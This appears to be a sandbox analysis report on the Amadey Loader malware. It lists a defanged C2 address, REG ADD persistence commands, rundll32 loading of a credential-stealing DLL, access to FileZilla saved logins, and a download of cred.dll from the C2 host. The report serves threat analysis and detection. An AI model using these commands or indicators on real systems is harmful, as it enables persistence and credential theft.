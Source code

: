 # Amadey Loader

Version 1.76

password : infected

c2 : hxxp[:]//170.130.55[.]77/s1Qa9vCs/index.php


T1106 -  Starts itself from another location

cmdChild: c:\programdata\5a997433d2\gbnn.exe

cmdParent: "C:\Users\admin\AppData\Local\Temp\load.exe"

image: c:\programdata\5a997433d2\gbnn.exe

time: 688 ms


T1129 -  rundll32.exe - Loads dropped or rewritten executable


T0185 - Uses RUNDLL32.EXE to load library

cmdline: rundll32.exe C:\Users\admin\AppData\Local\Temp\cred.dll, Main

image: C:\Windows\system32\rundll32.exe

time: 23422 ms


T1060 -  REG.exe - Changes the autorun value in the registry

key: HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run

name: scr

operation: write

typeValue: REG_SZ

value: rundll32 C:\Users\admin\AppData\Local\Temp\scr.dll, Main

time: 23829 ms


T1060 -  REG.exe - Changes the autorun value in the registry

key: HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run

name: cred

operation: write

typeValue: REG_SZ

value: rundll32 C:\Users\admin\AppData\Local\Temp\cred.dll, Main

time: 23500 ms


T1060 -  REG.exe - Changes the Startup folder

key: HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders

name: Startup

operation: write

typeValue: REG_SZ

value: C:\ProgramData\5a997433d2

time: 1282 ms


T1088 - DllHost.exe - Known privilege escalation attack

cmdline: "C:\Users\admin\AppData\Local\Temp\chil16d.exe"

image: C:\Users\admin\AppData\Local\Temp\chil16d.exe


T1112 - gbnn.exe - Uses REG.EXE to modify Windows registry

cmdline: REG ADD "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders" /f /v Startup /t REG_SZ /d C:\ProgramData\5a997433d2

image: C:\Windows\system32\REG.exe

time: 1204 ms


T1085 - gbnn.exe -  Uses RUNDLL32.EXE to load library

cmdline: rundll32.exe C:\Users\admin\AppData\Local\Temp\cred.dll, Main

image: C:\Windows\system32\rundll32.exe

time: 23422 ms


T1081 - Rundll32.exe - Actions looks like stealing of personal data

access: READ_CONTROL, SYNCHRONIZE, FILE_READ_DATA, FILE_READ_EA, FILE_READ_ATTRIBUTES

created: SUPERSEDED

device: DISK_FILE_SYSTEM

name: C:\Users\admin\AppData\Roaming\FileZilla\sitemanager.xml

object: FILE

operation: CREATE

status: 0xC0000034

time: 23532 ms


T1012 - Query Registry

Uses REG.EXE to modify Windows registry

cmdline: REG ADD "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders" /f /v Startup /t REG_SZ /d C:\ProgramData\5a997433d2

image: C:\Windows\system32\REG.exe

time: 1204 ms


T1105 - gbnn.exe - Downloads executable files from the Internet

host: 170.130.55.77

method: GET

process: c:\programdata\5a997433d2\gbnn.exe

request: hxxp[:]//170.130.55.77/s1Qa9vCs/cred.dll

time: 25160 ms



